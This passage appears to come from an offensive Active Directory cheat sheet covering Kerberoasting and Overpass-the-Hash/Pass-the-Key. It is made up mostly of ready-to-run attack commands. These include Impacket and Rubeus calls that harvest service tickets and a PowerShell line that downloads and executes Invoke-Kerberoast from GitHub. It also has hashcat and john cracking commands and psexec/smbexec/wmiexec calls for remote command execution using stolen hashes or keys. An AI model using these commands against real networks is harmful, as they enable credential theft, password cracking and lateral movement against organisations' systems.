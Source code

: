 ```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

### Windows (internal)

With [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:

```
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

## Overpass The Hash/Pass The Key (PTK)

> NTDS.DIT, SAM files or lsass with mimi

### Linux (external)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
